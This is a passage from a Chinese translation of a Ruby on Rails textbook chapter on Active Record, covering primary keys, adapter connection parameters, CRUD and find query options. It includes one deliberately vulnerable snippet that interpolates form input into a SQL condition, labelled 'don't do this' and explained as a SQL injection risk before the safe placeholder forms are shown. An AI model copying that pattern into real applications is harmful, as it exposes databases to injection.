> 3. Ruby 对真假有简单的定义。任何既不是 `nil` 也不是常量 `false` 的值都是真值。


### 17.3 主键和ID

要在条件中将列作为布尔值进行查询，必须在列名后附加一个问号。

```ruby
#### 应该这样做
user = Users.find_by_name("Dave")
if user.superuser?
    grant_privileges
end
```

这种形式的属性访问器会查看列的值。只有当值为数字零；字符串 "0"、"f"、"false" 或 ""（空字符串）之一；nil；或常量 false 时，才会被解释为 false。否则，它将被解释为 true。

如果你处理的是旧模式或使用非英语语言的数据库，上一段中关于“真”的定义可能不适用。在这些情况下，你可以覆盖谓词方法的内置定义。例如，在荷兰语中，字段可能包含 J 或 N（代表 Ja 或 Nee）。在这种情况下，你可以编写：

```ruby
class User < ActiveRecord::Base
    def superuser?
        self.superuser == 'J'
    end
    # ...
end
```

如果你一直查看 Depot 应用程序的底层数据库表，你会注意到每个表都有一个名为 `id` 的整数主键列。默认情况下，当你使用 `create_table` 方法时，Rails 迁移会添加这个列。这是 Active Record 的一个约定。

“但是等等！”你可能会喊道。“我订单表的主键不应该是订单号或其他有意义的列吗？为什么要使用像 `id` 这样的人工主键呢？”

原因主要出于实际考虑——外部数据的格式可能会随时间变化。例如，你可能认为图书的 ISBN 是图书表中主键的良好候选。毕竟，ISBN 是唯一的。但正如这本书写作时所看到的，美国的出版业正在为一项重大变革做准备，所有 ISBN 都将添加额外的数字。

如果我们曾在图书表中将 ISBN 用作主键，我们将不得不更新每一行以反映这一变化。但这样又会带来另一个问题。数据库中还会有其他表通过主键引用图书表中的行。我们无法更改图书表中的主键，除非我们首先遍历并更新所有这些引用。这将涉及删除外键约束、更新表、更新图书表，最后重新建立约束。总而言之，这相当麻烦。

如果我们使用自己的内部值作为主键，这些问题就迎刃而解了。没有第三方可以随意告诉我们去更改我们的模式——我们控制着自己的键空间。并且，如果像 ISBN 这样的东西确实需要更改，它可以在不影响数据库中任何现有关系的情况下进行更改。实际上，我们已经将行的关联与这些行中数据的外部表示解耦了。

现在，这并不是说我们不能向最终用户暴露 `id` 值。在订单表中，我们可以对外称其为 *订单ID*，并将其打印在所有文件上。但这样做要小心——任何时候都可能有监管机构出现，强制规定订单 ID 必须遵循外部规定的格式，那么你就会回到原点。

如果你正在为 Rails 应用程序创建新模式，你可能想顺其自然，让它将 `id` 主键列添加到所有表中。⁴ 然而，如果你需要使用现有模式，Active Record 为你提供了一种简单的方法来覆盖表主键的默认名称。

例如，你可能正在使用一个现有的旧模式，该模式将 ISBN 用作图书表的主键。你可以使用如下方式在 Active Record 模型中指定这一点。

```ruby
class Book < ActiveRecord::Base
  self.primary_key = "isbn"
end
```

通常，Active Record 会负责为你创建并添加到数据库的记录创建新的主键值——它们将是递增的整数（序列中可能有一些间隔）。但是，如果你覆盖了主键列的名称，那么在保存新行之前，你也有责任将主键设置为一个唯一值。也许令人惊讶的是，你仍然通过设置一个名为 `id` 的属性来做到这一点。就 Active Record 而言，主键属性总是通过名为 `id` 的属性来设置。`primary_key=` 声明设置了要在表中使用的列的名称。在下面的代码中，即使数据库中的主键是 `isbn`，我们也使用名为 `id` 的属性。

```ruby
book = BadBook.new
book.id = "0-12345-6789"
book.title = "My Great American Novel"
book.save
```

```ruby
# ...

book = BadBook.find("0-12345-6789")
puts book.title    # => "My Great American Novel"
p book.attributes  #=> {"isbn"=>"0-12345-6789",
                    "title"=>"My Great American Novel"}
```

⁴. 正如我们稍后将看到的，连接表不包括在此建议中——它们*不*应有 `id` 列。

只是让事情更令人困惑的是，模型对象的属性具有列名 `isbn` 和 `title`——`id` 并未出现。当你需要设置主键时，请使用 `id`。在所有其他时候，请使用实际的列名。

##### 复合主键

使用多个列来标识每一行的表被称为具有复合主键。Rails 不支持这些表，无论是使用迁移创建它们还是尝试使用 Active Record 使用它们时。

然而，一切并非无望。如果你需要复合主键才能让 Rails 与旧模式配合使用，可以在网上搜索一些插件。人们正在研究它们。⁵

### 17.4 连接到数据库

Active Record 抽象了 *数据库连接* 的概念，使应用程序免于处理与特定数据库交互的细节。相反，Active Record 应用程序使用通用调用，将细节委托给一组特定于数据库的适配器。（当代码开始进行基于 SQL 的查询时，这种抽象会稍微失效，正如我们稍后将看到的。）

指定连接的一种方法是使用 `establish_connection` 类方法。⁶ 例如，以下调用使用给定的用户名和密码，创建到服务器 `dbserver.com` 上名为 `railsdb` 的 MySQL 数据库的连接。它将被所有模型类用作默认连接。

```ruby
ActiveRecord::Base.establish_connection(
  :adapter  => "mysql",
  :host     => "dbserver.com",
  :database => "railsdb",
  :username => "railsuser",
  :password => "railspw"
)
```

#### 适配器特定信息

Active Record 支持 DB2、Firebird、Frontbase、MySQL、Openbase、Oracle、Postgres、SQLite、SQL Server 和 Sybase 数据库（并且这个列表还会增长）。每个适配器接受的连接参数略有不同，我们将在以下（非常枯燥）部分中列出。与 Rails 的所有情况一样，事物变化很快。我建议你访问 Rails wiki [http://wiki.rubyonrails.org/rails](http://wiki.rubyonrails.org/rails) 并查看有关数据库适配器的最新信息。

⁵. 例如 Nic Williams 在 [http://compositekeys.rubyforge.org/](http://compositekeys.rubyforge.org/)
⁶. 在完整的 Rails 应用程序中，还有另一种指定连接的方式。我们在第 239 页描述它。

##### DB2 适配器

需要：Ruby DB2 库。IBM alphaworks 最近发布了适用于 Rails 的 Starter Toolkit，其中包含 DB2 Express 的副本、其 Ruby 驱动程序（称为 IBM DB2）和一个 Rails 适配器。或者，你可以使用 Michael Neumann 的 ruby-db2 驱动程序，它作为 DBI 项目的一部分在 RubyForge 上可用。⁷

```
连接参数：
:adapter  => "db2",           # (或使用 ibm-db2 代表 IBM 适配器)
:database => "railsdb",
:username => "可选",
:password => "可选",
:schema   => "可选"
```

##### Firebird 适配器

需要：FireRuby 库（版本 0.4 或更高），可使用以下命令安装：

```
depot> gem install fireruby
```

```
连接参数：
:adapter   => "firebird",
:database  => "railsdb",
:username  => "可选",
:password  => "可选",
:host      => "可选",
:port      => 可选,
:service   => "可选",
:charset   => "可选"
```

##### Frontbase 适配器

需要：ruby-frontbase（版本 1.0 或更高），可使用以下命令安装：

```
depot> gem install ruby-frontbase
```

```
连接参数：
:adapter      => "frontbase",
:database     => "railsdb",
:username     => "可选",
:password     => "可选",
:port         => 端口,
:host         => "可选",
:dbpassword   => "可选",
:session_name => "可选"
```

##### MySQL 适配器

需要：从技术上讲，Rails 不需要额外的外部库来连接 MySQL 数据库，因为它自带了连接到 MySQL 数据库的 Ruby 库。但是，这个库性能不佳，因此我们建议安装 MySQL 的低级 C 绑定。

```
depot> gem install mysql
```

⁷. http://rubyforge.org/projects/ruby-dbi/


##### MySQL 适配器

`:socket` 参数似乎会引起很多问题。这反映了 MySQL 自身一些实现上的缺陷。当你构建 MySQL 时，你会将客户端用于与服务器通信的 socket 文件位置硬编码进去。如果你曾使用不同的包管理系统来安装 MySQL，你可能会发现这个 socket 被配置在不同的位置。如果你在某个配置下构建了 Ruby 库，然后重新安装了 MySQL，这些库可能不再工作，因为 socket 可能已经移动。`:socket` 参数允许你覆盖 Ruby 库中内置的位置，并指向 socket 文件的当前位置。

你可以使用以下命令从命令行确定 socket 文件的位置：

```
depot> mysql_config --socket
```

连接参数：

```
:adapter   => "mysql",
:database  => "railsdb",
:username  => "optional",   # defaults to 'root'
:password  => "optional",
:socket    => "path to socket",
:port      => optional
:encoding  => "utf8", "latin1", ...
```

```
# Use the following parameters to connect to a MySQL
# server using a secure SSL connection. To use SSL with no
# client certificate, set :sslca to "/dev/null"
```

```
:sslkey     => "path to key file",
:sslcert    => "path to certificate file"
:sslca      => "path to certificate authority file"
:sslcapath  => "directory containing trusted SSL CA certificates",
:sslcipher  => "list of allowable ciphers"
```

##### Openbase 适配器

需要：Ruby/OpenBase，可从 http://ruby-openbase.rubyforge.org/ 获取。

连接参数：

```
:adapter   => "openbase",
:database  => "railsdb",
:username  => "optional",
:password  => "optional",
:host      => "optional"
```

##### Oracle 适配器

需要：ruby-oci8，可从 RubyForge 获取。[^8]

连接参数：

```
:adapter    => "oracle",        # used to be oci8
:database   => "railsdb",
:username   => "optional",
:password   => "optional",
```

##### Postgres 适配器

需要：ruby-postgres gem，使用以下命令安装：

```
depot> gem install ruby-postgres
```

连接参数：

```
:adapter          => "postgresql",
:database         => "railsdb",
:username         => "optional",
:password         => "optional",
:port             => 5432,
:host             => "optional",
:min_messages     => optional,
:schema_search_path => "optional" (aka :schema_order),
:allow_concurrency => true | false,
:encoding         => "encoding",
```

##### SQLite 适配器

Rails 可以使用 SQLite2 和 SQLite3 数据库：前者使用 sqlite 连接适配器，后者使用 sqlite3。你需要相应的 Ruby 接口库。

```
depot> gem install sqlite-ruby   # SQLite2
depot> gem install sqlite3-ruby  # SQLite3
```

连接参数：

```
:adapter   => "sqlite",  # or "sqlite3"
:database  => "railsdb"
```

##### SQL Server 适配器

需要：Ruby 的 DBI 库，以及其对 ADO 或 ODBC 数据库驱动的支持。[^9]

连接参数：

```
:adapter   => "sqlserver",
:mode      => "ado",                       # or "odbc"
:database  => "required for ado",
:host      => "localhost",
:dsn       => "required for odbc",
:username    => "optional",
:password    => "optional",
:autocommit  => true,
```

##### Sybase 适配器

需要：sybase-ctlib 库。[^10]

连接参数：

```
:adapter   => "sybase",
:database  => "railsdb",
:host      => "host",
:username  => "optional",
:password  => "optional",
:numconvert => true
```

如果 `:numconvert` 参数为 true（默认值），适配器将不会对看起来是有效整数的值进行引号包裹。

#### 连接与模型

连接与模型类相关联。每个类都继承其父类的连接。由于 `ActiveRecord::Base` 是所有 Active Record 类的基类，为它设置连接就为所有你定义的 Active Record 类设置了默认连接。然而，你可以在需要时覆盖这一点。

在下面的示例中，我们应用程序的大部分表都在一个名为 `online` 的 MySQL 数据库中。出于历史原因（还有其他原因吗？），`customers` 表在 `backend` 数据库中。由于 `establish_connection` 是一个类方法，我们可以在 `Customer` 类的定义中直接调用它。

```ruby
ActiveRecord::Base.establish_connection(
  :adapter  => "mysql",
  :host     => "dbserver.com",
  :database => "online",
  :username => "groucho",
  :password => "swordfish")
```

```ruby
class LineItem < ActiveRecord::Base
  # ...
end
```

```ruby
class Order < ActiveRecord::Base
  # ...
end
```

```ruby
class Product < ActiveRecord::Base
  # ...
end
```

```ruby
class Customer < ActiveRecord::Base
  establish_connection(
    :adapter  => "mysql",
    :host     => "dbserver.com",
    :database => "backend",
    :username => "chicho",
    :password => "piano")

  # ...
end
```

当我们之前在本书中编写 Depot 应用程序时，我们没有使用 `establish_connection` 方法。相反，我们在文件 `config/database.yml` 中指定了连接参数。对于大多数 Rails 应用程序，这是首选的工作方式。它不仅将所有连接信息排除在代码之外，而且更好地与 Rails 的测试和部署方案配合使用。之前列出的所有特定连接适配器参数也可以在 YAML 文件中使用。详见第 239 页的第 14.3 节“配置数据库连接”。

最后，你可以结合两种方法。如果你向 `establish_connection` 传递一个符号，Rails 会在 `database.yml` 中查找具有该名称的部分，并基于在那里找到的参数建立连接。这样你就可以将所有连接细节保留在代码之外。

### 17.5 CRUD—创建、读取、更新、删除

Active Record 使得实现四种基本的数据库操作变得容易：创建、读取、更新和删除。

在本节中，我们将使用 MySQL 数据库中的 `orders` 表。以下示例假设我们为该表有一个基本的 Active Record 模型。

```ruby
class Order < ActiveRecord::Base
end
```

#### 创建新行

在对象关系范式中，表被表示为类，表中的行对应于该类的对象。通过创建相应类的新对象来创建表中的行似乎是合理的。我们可以通过调用 `Order.new` 来创建表示 `orders` 表中的行的新对象。然后，我们可以填充属性的值（对应于数据库中的列）。最后，我们调用对象的 `save` 方法将订单存储回数据库。如果没有这个调用，订单将只存在于我们的本地内存中。

```ruby
an_order = Order.new
an_order.name     = "Dave Thomas"
an_order.email    = "dave@pragprog.com"
an_order.address  = "123 Main St"
an_order.pay_type = "check"
an_order.save
```

Active Record 构造函数接受一个可选的块。如果存在，该块将使用新创建的订单作为参数调用。如果你想创建并保存一个订单而不创建新的局部变量，这可能会很有用。

```ruby
Order.new do |o|
  o.name = "Dave Thomas"
  # ... ...
  o.save
end
```

最后，Active Record 构造函数接受一个属性值哈希作为可选参数。此哈希中的每个条目都对应于要设置的属性的名称和值。正如我们将在本书后面看到的，这在将 HTML 表单中的值存储到数据库行中时非常有用。

```ruby
an_order = Order.new(
  :name     => "Dave Thomas",
  :email    => "dave@pragprog.com",
  :address  => "123 Main St",
  :pay_type => "check")
an_order.save
```

请注意，在所有这些示例中，我们都没有设置新行的 `id` 属性。由于我们使用了 Active Record 默认的整数列作为主键，Active Record 会在保存行时自动创建一个唯一值并设置 `id` 属性。我们随后可以通过查询该属性来找到这个值。

```ruby
an_order = Order.new
an_order.name = "Dave Thomas"
# ... ...
an_order.save
puts "The ID of this order is #{an_order.id}"
```

`new` 构造函数在内存中创建一个新的 Order 对象；我们必须记住在某个时候将其保存到数据库。Active Record 有一个便捷方法 `create`，它既能实例化模型对象，又能将其存储到数据库中。

[^8]: http://rubyforge.org/projects/ruby-oci8/
[^9]: http://rubyforge.org/projects/ruby-dbi/
[^10]: http://raa.ruby-lang.org/project/sybase-ctlib/


##### 读取现有行

从数据库读取数据，首先需要指定你感兴趣的数据行——你需要向 Active Record 提供某种条件，它就会返回包含匹配条件行数据的对象。

查找表中某一行最简单的方式是通过指定其主键。每个模型类都支持 `find` 方法，该方法接受一个或多个主键值。如果只给定一个主键，它返回一个包含对应行数据的对象（或抛出 `RecordNotFound` 异常）。如果给定多个主键值，`find` 返回对应对象的数组。请注意，在这种情况下，如果任何 id 找不到，都会返回 `RecordNotFound` 异常（因此，如果该方法没有引发错误就返回了，那么结果数组的长度将等于作为参数传递的 id 数量）。

```
an_order = Order.find(27)   # 查找 id == 27 的订单

# 从表单中获取产品 id 列表，然后
# 计算总价
product_list = params[:product_ids]
total =  Product.find(product_list).sum(&:price)
```

> **David 说……**
> **抛出异常，还是不抛出异常？**
> 当你使用基于主键的查找器时，你是在查找特定的记录。你期望它存在。调用 `Person.find(5)` 是基于我们对 person 表的了解。我们想要 id 为 5 的行。如果这次调用不成功——如果 id 为 5 的记录已被销毁——我们就处于一种异常情况。这要求抛出异常，因此 Rails 抛出 `RecordNotFound`。
> 另一方面，使用条件进行搜索的查找器是在寻找匹配项。因此，`Person.find(:first, :conditions=>"name=\"Dave\"")` 相当于告诉数据库（作为一个黑盒子），“给我第一个名字是 Dave 的 person 行。”这表现出一种截然不同的检索方法；我们事先并不确定会得到结果。结果集完全有可能为空。因此，对于搜索单行的查找器返回 `nil`，对于搜索多行的查找器返回空数组，是自然、非异常的响应。

然而，通常你需要根据主键值以外的标准来读取行。Active Record 提供了一系列选项来执行这些查询。我们将首先研究底层的 `find` 方法，然后再转向更高层次的动态查找器。

到目前为止，我们只是触及了 `find` 的表面，用它来返回基于我们作为参数传递的 id 的一行或多行。然而，`find` 有点像有双重性格。如果你传入符号 `:first` 或 `:all` 作为第一个参数，不起眼的 `find` 就会变身为一个强大的搜索机器。

`find` 的 `:first` 变体返回匹配一组条件的第一行，而 `:all` 形式返回匹配行的数组。这两种形式都接受一组控制其行为的关键字参数。但在查看这些之前，我们需要花一两页的篇幅来解释 Active Record 如何处理 SQL。

##### SQL 和 Active Record

为了说明 Active Record 如何与 SQL 协作，让我们看看 `find(:all, :conditions => ...)` 方法调用中的 `:conditions` 参数。这个 `:conditions` 参数决定了 `find` 返回哪些行；它对应于 SQL 的 `WHERE` 子句。例如，要返回所有付款类型为“po”的 Dave 的订单列表，你可以使用

```
pos = Order.find(:all,
                  :conditions => "name = 'Dave' and pay_type = 'po'")
```

结果将是一个包含所有匹配行的数组，每一行都整齐地包装在 `Order` 对象中。如果没有订单匹配条件，数组将为空。

如果条件是预定义的，这没问题，但如何处理客户名称是外部设置的情况（可能来自网页表单）？一种方法是将该变量的值替换到条件字符串中。

```
# 从表单获取限额金额
name = params[:name]
# 不要这样做！！！
pos = Order.find(:all,
                 :conditions => "name = '#{name}' and pay_type = 'po'")
```

正如注释所示，这确实不是一个好主意。为什么？它让你的数据库完全暴露于一种称为 SQL 注入攻击的风险之下，我们将在第 26 章“保护你的 Rails 应用程序”（第 600 页）中更详细地描述这一点。目前，请理解将外部来源的字符串替换到 SQL 语句中，实际上等同于将你的整个数据库发布到整个在线世界。

相反，生成动态 SQL 的安全方法是让 Active Record 来处理。无论在哪里你可以传递包含 SQL 的字符串，你也可以传递一个数组或哈希。这样做可以让 Active Record 创建正确转义的 SQL，从而免疫 SQL 注入攻击。让我们看看这是如何工作的。

如果在 Active Record 期望 SQL 的地方你传递一个数组，它会将该数组的第一个元素视为要生成的 SQL 模板。在这个 SQL 中，你可以嵌入占位符，这些占位符将在运行时被数组其余部分的值替换。

指定占位符的一种方法是在 SQL 中插入一个或多个问号。第一个问号被数组的第二个元素替换，下一个问号被第三个替换，依此类推。例如，我们可以将之前的查询重写为

```
name = params[:name]
pos = Order.find(:all,
                 :conditions => ["name = ? and pay_type = 'po'", name])
```

你也可以使用命名占位符。每个占位符的形式为 `:name`，相应的值作为哈希提供，其中的键对应于查询中的名称。

```
name      = params[:name]
pay_type  = params[:pay_type]
pos = Order.find(:all,
                 :conditions => ["name = :name and pay_type = :pay_type",
                                {:pay_type => pay_type, :name => name}])
```

你可以更进一步。因为 `params` 实际上是一个哈希，你可以直接将它全部传递给条件。如果我们有一个可用于输入搜索条件的表单，我们可以直接使用从该表单返回的值哈希。

```
pos = Order.find(:all,
                :conditions => ["name = :name and pay_type = :pay_type", params[:order]])
```

从 Rails 1.2 开始，你可以做得更简洁。如果你只传递一个哈希作为条件，Rails 会生成一个 `WHERE` 子句，其中哈希键用作列名，哈希值用作匹配的值。因此，我们可以更简洁地编写之前的代码。

```
pos = Order.find(:all, :conditions => params[:order])
```

（请注意后一种条件形式：它在构造条件时使用了你传递的哈希中的*所有*键值对。）

无论你使用哪种形式的占位符，Active Record 都会非常小心地对要替换到 SQL 中的值进行引用和转义。使用这些动态 SQL 形式，Active Record 将使你免受注入攻击。

##### 使用 Like 子句

你可能很想在条件中使用参数化的 like 子句，如下所示：

```
# 不起作用
User.find(:all, :conditions => ["name like '%'", params[:name]])
```

Rails 不会解析条件内部的 SQL，因此不知道 `name` 被替换到一个字符串中。结果，它会继续并围绕 `name` 参数的值添加额外的引号。正确的方法是构造 like 子句的完整参数，并将该参数传递给条件。

```
# 有效
User.find(:all, :conditions => ["name like ?", params[:name]+"%"])
```

##### 强大的 find()

现在我们知道如何指定条件，让我们将注意力转向 `find(:first, ...)` 和 `find(:all, ...)` 支持的各种选项。

理解 `find(:first, ...)` 生成的 SQL 查询与使用相同条件的 `find(:all, ...)` 相同，只是结果集限制为单行，这一点很重要。我们将在一个地方描述这两个方法的参数，并使用 `find(:all, ...)` 进行说明。我们将第一个参数为 `:first` 或 `:all` 的 `find` 称为*查找器方法*。


在没有额外参数的情况下，查询器实际上执行的是 `select * from...` 语句。`:all` 形式返回表中的所有行，`:first` 返回一行。顺序不能保证（因此 `Order.find(:first)` 不一定返回应用中创建的第一个订单）。

###### :conditions

正如我们在上一节中所看到的，`:conditions` 参数让你指定传递给 `find` 方法使用的 SQL where 子句的条件。这个条件可以是一个包含 SQL 的字符串，一个包含 SQL 和替换值的数组，或者一个哈希。（从现在开始我们将不再明确提到这一点——每当我们谈论一个 SQL 参数时，假设该方法可以接受数组或字符串。）

```ruby
daves_orders = Order.find(:all, :conditions => "name = 'Dave'")
name = params[:name]
other_orders = Order.find(:all, :conditions => ["name = ?", name])
yet_more = Order.find(:all,
                    :conditions => ["name = :name and pay_type = :pay_type", params[:order]])
still_more = Order.find(:all, :conditions => params[:order])
```

###### :order

SQL 不保证行会以任何特定顺序返回，除非你明确在查询中添加 `order by` 子句。`:order` 参数让你指定你通常在 `order by` 关键字后面添加的标准。例如，以下查询将返回 Dave 的所有订单，首先按支付类型排序，然后按发货日期排序（后者为降序）。

```ruby
orders = Order.find(:all,
              :conditions => "name = 'Dave'",
              :order => "pay_type, shipped_at DESC")
```

###### :limit

你可以使用 `:limit` 参数限制 `find(:all, ...)` 返回的行数。如果使用 `limit` 参数，你可能还需要指定排序顺序以确保结果的一致性。例如，以下返回前 10 个匹配的订单。

```ruby
orders = Order.find(:all,
              :conditions => "name = 'Dave'",
              :order => "pay_type, shipped_at DESC",
              :limit => 10)
```

###### :offset

`:offset` 参数与 `:limit` 参数紧密相关。它允许你指定 `find` 返回的结果集中第一行的偏移量。

```ruby
# 视图希望将订单分页显示，
# 每页显示 page_size 个订单。
# 此方法返回第 page_num 页（从
# 零开始）的订单。
def Order.find_on_page(page_num, page_size)
  find(:all,
       :order => "id",
       :limit => page_size,
       :offset => page_num*page_size)
end
```

你可以将 `:offset` 与 `:limit` 结合使用，以每次 n 行的步长浏览查询结果。

###### :joins

查询器方法的 `:joins` 参数让你指定要附加到默认表的额外表列表。此参数被插入到 SQL 中，紧随模型表名之后，并在第一个参数指定的任何条件之前。连接语法是特定于数据库的。以下代码返回名为 *Programming Ruby* 的书的所有明细行列表。

```ruby
LineItem.find(:all,
              :conditions => "pr.title = 'Programming Ruby'",
              :joins      => "as li inner join products as pr on li.product_id = pr.id")
```

正如我们将在第 18 章 *Active Record：表之间的关系*（第 324 页）中看到的那样，你可能不会经常使用 `find` 的 `:joins` 参数——Active Record 为你处理大多数常见的表间连接。

###### :select

默认情况下，`find` 从底层数据库表中获取所有列——它向数据库发出 `select * from...`。使用 `:select` 选项可以覆盖此行为，该选项接受一个字符串，该字符串将出现在 select 语句中替代 `*` 的位置。

此选项允许你在只需要表中数据子集的情况下限制返回的值。例如，你的播客表可能包含标题、演讲者和日期的信息，还可能包含一个包含演讲 MP3 的大二进制对象。如果你只想创建一个演讲列表，同时加载每行的声音数据将是低效的。`:select` 选项让你选择要加载哪些列。

```ruby
list = Talks.find(:all, :select => "title, speaker, recorded_on")
```

`:select` 选项还允许你包含来自其他表的列。在这些所谓的“搭便车”查询中，你的应用可以省去在父表和子表之间执行多次查询的需要。例如，一个博客表可能包含一个指向包含作者信息的表的外键引用。如果你想列出博客条目的标题和作者，你可能会编写类似以下的代码。（然而，这段代码由于多种原因是非常糟糕的 Rails 代码。请在翻页后将其从脑海中抹去。）

```ruby
entries = Blog.find(:all)
entries.each do |entry|
  author = Authors.find(entry.author_id)
  puts "Title: #{entry.title} by: #{author.name}"
end
```

另一种方法是连接博客和作者表，并让查询在结果集中包含作者姓名。

```ruby
entries = Blog.find(:all,
  :joins => "as b inner join authors as a on b.author_id = a.id",
  :select => "*, a.name")
```

（更好的方法可能是在指定模型类之间的关系时使用 `:include` 选项，但我们还没有讨论过这个。）

###### :readonly

如果 `:readonly` 设置为 `true`，则 `find` 返回的 Active Record 对象不能被存储回数据库。

如果你使用 `:joins` 或 `:select` 选项，对象将自动被标记为 `:readonly`。

###### :from

`:from` 选项允许你覆盖插入到 select 子句中的表名。

###### :group

`:group` 选项向 `find` 生成的 SQL 添加一个 `group by` 子句。

```ruby
summary = LineItem.find(:all,
                       :select => "sku, sum(amount) as amount",
                       :group  => "sku")
```

###### :lock

`:lock` 选项接受一个字符串或常量 `true`。如果你传递一个字符串，它应该是你数据库语法中指定某种锁的 SQL 片段。例如，在 MySQL 中，*共享模式* 锁为我们提供一行中的最新数据，并保证在我们持有锁时没有其他人可以修改该行。我们可以编写代码，仅在资金充足时才从账户扣款，类似于以下内容。

```ruby
Account.transaction do
  ac = Account.find(id, :lock => "LOCK IN SHARE MODE")
  ac.balance -= amount if ac.balance > amount
  ac.save
end
```

如果你给 `:lock` 一个 `true` 的值，则会获得数据库的默认排他锁（通常这将是“for update”）。你通常可以使用事务（从第 384 页开始讨论）和乐观锁（从第 390 页开始）来消除对此类锁的需求。

还有一个额外的参数 `:include`，只有在定义了关联时才会生效。我们将从第 361 页开始讨论它。

##### 查找单行

`find(:all, ...)` 方法返回一个模型对象数组。如果你希望只返回一个对象，请使用 `find(:first, ...)`。它接受与 `:all` 形式相同的参数，但 `:limit` 参数被强制为值 1，因此只会返回一行。

```ruby
# 返回一个任意订单
order = Order.find(:first)

# 返回 Dave 的一个订单
order = Order.find(:first, :conditions => "name = 'Dave Thomas'")

# 返回 Dave 的最新订单
order = Order.find(:first,
                :conditions => "name = 'Dave Thomas'",
                :order       => "id DESC")
```

如果提供给 `find(:first, ...)` 的条件导致从表中选择多行，则返回其中第一行。如果没有选择任何行，则返回 `nil`。

##### 编写自己的 SQL

`find` 方法为你构建完整的 SQL 查询字符串。`find_by_sql` 方法让你的应用完全控制。它接受一个包含 SQL select 语句的参数（或一个包含 SQL 和占位符值的数组，如同 `find`），并返回一个（可能为空的）模型对象数组。这些模型中的属性将从结果集中设置。


查询返回的列。你通常会使用 `select *` 形式来返回表的所有列，但这并非必需。11

```
orders = LineItem.find_by_sql("select line_items.* from line_items, orders " +
                                " where order_id = orders.id              " +
                                "   and orders.name = 'Dave Thomas'         ")
```

只有查询返回的那些属性才会在生成的模型对象中可用。你可以使用 `attributes`、`attribute_names` 和 `attribute_present?` 方法来确定模型对象中可用的属性。第一个方法返回一个属性名/值对的哈希，第二个返回一个名称数组，第三个方法在命名属性在该模型对象中可用时返回 `true`。

```
orders = Order.find_by_sql("select name, pay_type from orders")

first = orders[0]
p first.attributes
p first.attribute_names
p first.attribute_present?("address")

这段代码的输出为
{"name"=>"Dave Thomas", "pay_type"=>"check"}
["name", "pay_type"]
false
```

`find_by_sql` 也可用于创建包含派生列数据的模型对象。如果你使用 `as xxx` SQL 语法为结果集中的派生列命名，该名称将用作属性的名称。

```
items = LineItem.find_by_sql("select *,               " +
                            "       quantity*unit_price as total_price, " +
                            "       products.title as title              " +
                            "  from line_items, products                " +
                            " where line_items.product_id = products.id ")

li = items[0]
puts "#{li.title}: #{li.quantity}x#{li.unit_price} => #{li.total_price}"
```

与条件类似，你也可以将一个数组传递给 `find_by_sql`，其中第一个元素是包含占位符的字符串。数组的其余部分可以是哈希或值列表，用于替换占位符。

```
Order.find_by_sql(["select * from orders where amount > ?",
                   params[:amount]])
```

11. 但如果你在查询中未能获取主键列，你将无法将模型中的更新数据写回数据库。参见第320页的第17.7节，*缺失的ID之谜*。

> **David说...**
> **但SQL不是“脏”东西吗？**

自开发者首次用面向对象层封装关系数据库以来，他们一直在争论抽象应该深入到何种程度。一些对象关系映射器试图完全消除SQL的使用，希望通过强制所有查询都通过一个面向对象层来实现面向对象的纯粹性。

Active Record并非如此。它建立在SQL既不“脏”也不坏，只是在处理简单情况时显得冗长这一理念之上。重点在于消除在简单情况下处理这种冗长的需要（手动编写一个包含10个属性的插入语句会让任何程序员感到疲惫），但同时保留其表达力以处理复杂查询——那些SQL被设计出来优雅处理的查询类型。

因此，当你使用 `find_by_sql` 来处理性能瓶颈或复杂查询时，不应感到内疚。为了生产力和愉悦感，先从面向对象的接口开始，然后在需要时深入底层，体验接近硬件的编程感觉。

在Rails的早期，人们经常不得不使用 `find_by_sql`。此后，对基本 `find` 方法添加的所有选项意味着你可以避免使用这种低级方法。

##### 获取列的统计数据

Rails 1.1新增了对列值进行统计的功能。例如，给定一个订单表，我们可以计算

```
average = Order.average(:amount)  # 订单的平均金额
max     = Order.maximum(:amount)
min     = Order.minimum(:amount)
total   = Order.sum(:amount)
number  = Order.count
```

这些都对应底层数据库中的聚合函数，但它们以数据库无关的方式工作。如果你想访问特定数据库的函数，可以使用更通用的 `calculate` 方法。例如，MySQL的 `std` 函数返回一个表达式的总体标准差。我们可以将其应用于我们的 `amount` 列。

```
std_dev = Order.calculate(:std, :amount)
```

所有聚合函数都接受一个选项哈希，这与可以传递给 `find` 的哈希非常相似。（`count` 函数有些特殊——我们将单独讨论。）

- **:conditions**
    将函数限制为匹配的行。条件的指定格式与 `find` 方法相同。
- **:joins**
    指定连接到其他表的连接。
- **:limit**
    将结果集限制为给定的行数。仅在分组结果时有用（我们稍后会讨论）。
- **:order**
    对结果集进行排序（仅在与 :group 一起使用时有用）。
- **:having**
    指定SQL的 HAVING ... 子句。
- **:select**
    指定要在聚合中使用的列（但这可以简单地指定为聚合函数的第一个参数）。
- **:distinct**（仅用于 count）
    仅计算列中的不同值。

这些选项可以组合使用。

```
Order.minimum :amount
Order.minimum :amount, :conditions => "amount > 20"
```

这些函数对值进行聚合。默认情况下，它们返回一个单一结果，例如，产生满足某些条件的最小订单金额。但是，如果你包含 :group 子句，函数则会产生一系列结果，每个分组表达式值相同的记录集对应一个结果。例如，以下代码计算每个州的最大销售额。

```
result = Order.maximum :amount, :group => "state"
puts result   #=> [["TX", 12345], ["NC", 3456], ...]
```

这段代码返回一个有序哈希。你使用分组元素（在我们的例子中是 "TX"、"NC" 等）来索引它。你也可以使用 each 按顺序遍历条目。每个条目的值是聚合函数的值。

:order 和 :limit 参数在使用分组时尤为重要。例如，以下代码返回订单金额最高的三个州，按订单金额排序。

```
result = Order.maximum :amount,
                    :group => "state",
                    :limit => 3,
                    :order => "max(amount) desc"
```

这段代码不再是数据库无关的——为了对聚合列排序，我们必须使用MySQL的聚合函数语法（在这种情况下是 `max`）。

##### 计数

我们说过计数行的处理方式有些不同。由于历史原因，`count` 函数有多种形式——它可以接受零个、一个或两个参数。

不带参数时，它返回底层表的行数。

```
order_count = Order.count
```

如果带一个或两个参数调用，Rails首先确定其中是否有哈希。如果不是，它将第一个参数视为确定哪些行被计数的条件。

```
result = Order.count "amount > 10"
result1 = Order.count ["amount > ?", minimum_purchase]
```

带两个非哈希参数时，第二个参数被视为连接条件（就像 `find` 的 `:join` 参数一样）。

```
result = Order.count "amount > 10 and line_items.name like 'rails%'",
        "left join line_items on order_id = orders.id"
```

然而，如果 `count` 传递的是一个哈希参数，该哈希的解释方式与其他聚合函数的哈希参数相同。

```
Order.count :conditions => "amount > 10",
           :group => "state"
```

你可以在哈希参数之前选择性地传递一个列名。这个列名被传递给数据库的 `count` 函数，以便只计算该列中非NULL值的行。

